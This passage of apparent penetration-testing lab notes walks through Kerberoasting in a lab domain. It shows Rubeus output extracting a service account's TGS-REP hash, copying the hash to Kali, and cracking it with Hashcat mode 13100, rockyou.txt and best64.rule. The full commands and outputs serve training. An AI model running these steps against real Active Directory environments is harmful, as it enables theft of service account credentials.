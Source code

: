 ```
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```
+ Above shows that Rubeus identified one user account vulnerable to Kerberoasting and wrote the hash to an output file

Now, let's copy **hashes.kerberoast** to our Kali machine
+ We can then review the Hashcat help for the correct mode to crack a TGS-REP hash
```
kali@kali:~$ cat hashes.kerberoast
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...
...

kali@kali:~$ hashcat --help | grep -i "Kerberos"         
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```
+ The output of the second command above shows that _13100_ is the correct mode to crack TGS-REP hashes

As in the previous section, we'll start Hashcat with the arguments **13100** as mode, **rockyou.txt** as wordlist, **best64.rule** as rule file, and **--force** as we perform the cracking in a VM:
```
sudo hashcat -m 13100 <HASH_FILE> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
+ Example:
```
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940ad9dcf5dd5cd8e91a86d4ba0396db$f57066a4f4f8ff5d70df39b0c98ed7948a5db08d689b92446e600b49fd502dea39a8ed3b0b766e5cd40410464263557bc0e4025bfb92d89ba5c12c26c72232905dec4d060d3c8988945419ab4a7e7adec407d22bf6871d
```